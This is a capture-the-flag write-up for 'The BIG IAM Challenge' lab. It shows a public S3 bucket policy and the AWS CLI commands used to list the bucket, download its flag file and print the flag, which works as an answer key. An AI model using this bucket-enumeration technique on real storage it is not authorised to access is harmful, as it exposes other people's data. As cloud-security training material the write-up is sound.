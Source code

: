 ```yaml
---
tags:
  - IAM
  - S3
title: The BIG IAM Challenge - Buckets of Fun
description: Public buckets are risky
reference: https://thebigiamchallenge.com/challenge/1
---
```


## Challenge

We all know that public buckets are risky. But can you find the flag?

## Solution

### 1. view the provided IAM policy

The S3 bucket `thebigiamchallenge-storage-9979f4b` is publicly accessible.

```
{ "Version": "2012-10-17", "Statement": [ { "Effect": "Allow", "Principal": "*", "Action": "s3:GetObject", "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*" }, { "Effect": "Allow", "Principal": "*", "Action": "s3:ListBucket", "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b", "Condition": { "StringLike": { "s3:prefix": "files/*" } } } ] }
```

### 2. Explore the S3 bucket and download the flag file

```
> aws sts get-caller-identity

{

    "UserId": "AROAZSFITKRSYE6ELQP2Q:iam_shell",

    "Account": "657483584613",

    "Arn": "arn:aws:sts::657483584613:assumed-role/shell_basic_iam/iam_shell"

}

> aws s3 ls thebigiamchallenge-storage-9979f4b

                           PRE files/

> aws s3 ls thebigiamchallenge-storage-9979f4b/files/

2023-06-05 19:13:53         37 flag1.txt

2023-06-08 19:18:24      81889 logo.png

> aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/flag1.txt

Completed 37 Bytes/37 Bytes (601 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt t

o ../../tmp/flag1.txt

> cat /tmp/flag1.txt

{wiz:exposed-storage-risky-as-usual}
```
